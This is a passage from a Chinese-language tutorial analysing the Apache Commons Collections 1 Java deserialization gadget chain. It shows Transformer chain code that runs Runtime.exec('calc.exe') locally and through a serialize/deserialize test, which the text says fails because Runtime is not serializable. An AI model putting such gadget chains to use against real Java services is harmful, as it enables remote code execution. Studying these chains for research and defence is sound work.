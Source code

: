 ```java
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            // new ConstantTransformer(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))),
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(null); // 此处输入可以为任意值，因为不会被使用到，因为Runtime实例被我们写入了this.iTransformers数组中
    }
}
```
![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_43_yL69FDGk.png)

![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_44_FEHZbP9W.png)

那么模拟以下序列化与反序列化的过程

```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        // 客户端序列化写成文件
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(transformerChain);
        // 服务端反序列化payload 读取
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        //服务端反序列化成ChainedTransformer格式，并在服务端自主传入恶意参数input
        Transformer transformer = (ChainedTransformer) objectInputStream.readObject();
        transformer.transform(null);
    }
}
```
但是很遗憾的告诉以为快要成功的你，成功的本地测试加上序列化、反序列化过程之后就会失败。
因为Runtime类的定义没有继承`Serializable`类，所以是不支持反序列化的。
